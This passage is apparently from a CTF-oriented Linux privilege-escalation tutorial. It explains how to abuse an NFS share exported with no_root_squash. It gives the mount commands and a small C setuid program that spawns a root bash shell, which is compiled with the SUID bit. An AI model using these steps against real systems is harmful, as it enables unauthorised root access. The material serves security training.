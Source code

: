 Now if we run ```./test``` we get the root shell.

## Privilege escalation with NFS

Privilege escalation vectors are not confined to internal access. Shared folders and remote management interfaces such as SSH and Telnet can also help you gain root access on the target system. Some cases will also require using both vectors, e.g. finding a root SSH private key on the target system and connecting via SSH with root privileges instead of trying to increase current usre's privilege level.

Another vector that is more relevant to CTFs and exams is a misconfigured network shell. This vector can sometimes be seen during penetration testing engagements when a network backup system is present.

NFS (Network File Sharing) configuration is kept in the /etc/exports file. This file is created during the NFS server installation and can usually be read by users.

```bash
$cat /etc/exports
```

One of the outputlines is /backups *(rw,sync,insecure,no_root_squash,no_subrree_check) The critical element for this privilege escalation vector is the "no_root_squash" option you can see here. By default, NFS will change the root user to nfsnobody and strip any file from operating with root privileges. If the "no_root_squash" option is present on a writable share, we can create an executable with SUID bit set and run it on the target system.

To enumerate mountable shares from our attacking machine we can use

```bash
$showmount -e target_ip
```

We will mount one of the "no_root_squash" shares to our machine and start building our executable.

```bash
$mkdir /tmp/norootsquashmount
$mount -o rw target_ip:/backups /tmp/norootsquashmount
```

We will use the c program

```c
int main() {
    setgid(0);
    setuid(0);
    system("/bin/bash");
    return 0;
}
```

```bash
#gcc nfs.c -o nfs -w
#chmod +s nfs
```

Now back on the target system we can see that both nfs.c and nfs are present

```bash
$./nfs
```
